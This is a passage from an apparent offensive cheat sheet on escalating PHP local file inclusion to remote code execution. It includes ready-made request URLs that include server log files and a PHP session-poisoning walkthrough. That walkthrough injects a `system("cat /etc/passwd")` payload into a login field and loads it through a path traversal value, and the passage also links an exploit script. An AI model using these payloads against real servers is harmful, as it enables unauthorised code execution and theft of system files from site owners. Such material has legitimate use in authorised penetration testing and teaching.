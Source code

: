
## LFI to RCE via phpinfo()

https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

## LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

## References

* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
* [Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
* [Local file inclusion tricks](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
* [CVV #1: Local File Inclusion - SI9INT](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
* [Exploiting Blind File Reads / Path Traversal Vulnerabilities on Microsoft Windows Operating Systems - @evisneffos](http://www.soffensive.com/2018/06/exploiting-blind-file-reads-path.html)